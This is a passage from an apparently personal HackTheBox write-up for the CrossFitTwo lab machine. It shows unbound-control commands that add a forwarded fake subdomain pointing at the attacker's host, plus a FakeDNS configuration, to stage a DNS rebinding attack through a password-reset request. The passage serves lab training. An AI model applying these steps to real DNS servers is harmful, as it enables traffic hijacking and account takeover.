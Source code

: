 Now, To communicate with unbound server we need to use [unbound-control](https://manpages.ubuntu.com/manpages/xenial/man8/unbound-control.8.html) as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ unbound-control -c unbound.conf -s 10.10.10.232 status
version: 1.11.0
verbosity: 1
threads: 1
modules: 2 [ validator iterator ]
uptime: 528 seconds
options: control(ssl)
unbound (pid 71735) is running...
```

**DNS rebinding attack:**

So if we have access to unbound service we can make DNS rebinding attack, **I recommend seeing the following video from DEF CON 27 Conference [https://www.youtube.com/watch?v=y9-0lICNjOQ](https://www.youtube.com/watch?v=y9-0lICNjOQ) to understand how DNS rebinding attack works!**

So, first, we need to use ```unbound-control``` to add a fake subdomain, pointing back to our local machine.

Next, We need to run [FakeDNS](https://github.com/Crypt0s/FakeDns) (Or [dnschef](https://github.com/iphelix/dnschef)) to catch the request from the box, and point it to our host, create a listener to see what it is doing.

Let's add fake subdomain using ```unbound-control```:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ unbound-control -c unbound.conf -s 10.10.10.232@8953 forward_add +i xemployees.crossfit.htb. 10.10.14.14@9953
```

So we use the ```unbound.conf``` like before, the server is ```10.10.10.232@8953``` where 8953 is unbound port listener, Add fake subdomain ```xemployees.crossfit.htb``` (We can use any prefix according ```pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>``` from ```relayd.conf```) and point it to our host on port 9953.

Run ```FakeDNS``` with the following configuration:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ cat FakeDns/dns.conf
A xemployees.crossfit.htb.* 127.0.0.1 2%10.10.14.14
```

Means that  [A DNS record](https://www.cloudflare.com/learning/dns/dns-records/) for ```xemployees.crossfit.htb.``` evaluates to 127.0.0.1 for the first 2 tries,
On the 3th request from a client which has already made 2 requests, FakeDNS starts serving out the second ip ```10.10.14.14``` which is our host.
We need to add ```xemployees.crossfit.htb``` to ```/etc/hosts```.

To trigger that we need to send ```Forget password``` request with ```david.palmer@crossfit.htb``` user on the page:

